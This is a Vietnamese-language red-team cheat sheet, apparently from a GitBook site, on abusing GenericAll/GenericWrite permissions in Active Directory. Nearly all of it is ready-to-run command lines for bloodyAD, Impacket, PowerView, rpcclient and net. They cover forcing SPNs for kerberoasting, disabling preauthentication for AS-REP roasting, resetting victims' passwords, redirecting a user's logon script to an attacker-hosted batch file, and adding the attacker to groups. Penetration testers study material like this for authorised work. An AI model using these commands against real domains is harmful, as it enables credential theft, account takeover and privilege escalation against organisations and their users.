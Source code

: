 # GenericAll/GenericWrite

## User/Computer

### Kerberoasting

Thiết lập SPN cho tài khoản nạn nhân, yêu cầu Service Ticket (ST), lấy hash và kerberoast

#### Windows/Linux

Kiểm tra quyền ghi trên các tài khoản người dùng trong AD:

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <user> -p '<password>' get writable --otype USER --right WRITE --detail | egrep -i 'distinguishedName|servicePrincipalName'
```

{% endcode %}

Kiểm tra xem tài khoản người dùng có được thiết lập Service Principal Name (SPN) không:

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <user> -p '<password>' get object <targetuser> --attr serviceprincipalname
```

{% endcode %}

Ép thiết lập SPN cho tài khoản người dùng mục tiêu:

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <user> -p '<password>' set object <targetuser> serviceprincipalname -v 'ops/whatever1'
```

{% endcode %}

Lấy ticket:

```
GetUsersSPNs.py -dc-ip <ip> '<domain>/<user>:<password>' -request-user <targetuser>
```

#### Windows Only

Kiểm tra quyền ghi trên các tài khoản người dùng trong AD:

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

Kiểm tra xem tài khoản người dùng có được thiết lập Service Principal Name (SPN) không:

```
Get-DomainUser -Identity <targetuser> | select serviceprincipalname
```

Ép thiết lập SPN cho tài khoản người dùng mục tiêu:

```
Set-DomainObject <targetuser> -Set @{serviceprincipalname='ops/whatever1'}
```

Lấy ticket:

```
$User = Get-DomainUser <targetuser> 
$User | Get-DomainSPNTicket | fl
```

### AS-REP Roasting

Tắt Kerberos preauthentication, lấy AS-REP rồi crack chúng

#### Windows/Linux

Thay đổi userAccountControl:

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <attackeruser> -p <password> add uac <targetuser> -f DONT_REQ_PREAUTH
```

{% endcode %}

Lấy ticket:

```
GetNPUsers.py <domain>/<targetuser> -format <hashcat|john> -outputfile <outputfile>
```

#### Windows Only

Thay đổi userAccountControl:

```
Get-DomainUser <targetuser> | ConvertFrom-UACValue
Set-DomainObject -Identity <targetuser> -XOR @{useraccountcontrol=4194304} -Verbose
```

Lấy ticket:

```
Get-DomainUser <targetuser> | ConvertFrom-UACValue
Get-ASREPHash -Domain <domain>.local -UserName <targetuser>
```

### Đặt lại mật khẩu user

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <attackeruser> -p :<hash> set password <targetuser> '<newpassword>'
```

{% endcode %}

#### Windows Only

```
net user <user> <pass> /domain
```

{% code overflow="wrap" %}

```
$user = '<domain>\<user>'
$pass = ConvertTo-SecureString '<userpassword>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential $user, $pass
$newpass = ConvertTo-SecureString '<newpassword>' -AsPlainText -Force
Set-DomainUserPassword -Identity '<domain>\<targetuser>' -AccountPassword $newpass -Credential $creds
```

{% endcode %}

#### Linux Only

{% code overflow="wrap" %}

```
rpcclient -U '<attackeruser>%<pass>' -W <domain> -c "setuserinfo2 <targetuser> 23 <newpass>"
```

{% endcode %}

### Ghi đè Script-Path

Lệnh này ghi đè đường dẫn script đăng nhập của tài khoản mục tiêu để thực thi một script độc hại khi người dùng đăng nhập, cho phép thực thi mã tùy ý.

#### Windows/Linux

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <attackeruser> -p '<pass>' set object <targetuser> scriptpath -v '\\<ip>\totallyLegitScript.bat'
```

{% endcode %}

#### Windows Only

{% code overflow="wrap" %}

```
Set-ADObject -SamAccountName <targetuser> -PropertyName scriptpath -PropertyValue "\\<ip>\totallyLegitScript.bat"
```

{% endcode %}

## Group

#### Windows/Linux

Lệnh này thêm tài khoản người dùng vào nhóm trong Active Directory:

{% code overflow="wrap" %}

```
bloodyAD --host <ip> -d <domain> -u <attackeruser> -p <password> add groupMember <group> <attackeruser>
```

{% endcode %}

#### Windows Only

Lệnh này sử dụng lệnh net để thêm tài khoản người dùng vào nhóm, nâng cao quyền hạn:

```
net group <group> <attackeruser> /add /domain
```

#### Linux Only

Lệnh này sử dụng bộ công cụ Samba để thêm tài khoản vào một nhóm cụ thể:

{% code overflow="wrap" %}

```
net rpc group ADDMEM "<groupname>" <usertocadd> -U '<attackeruser>%<password>' -W <domain> -I <ip>
```

{% endcode %}
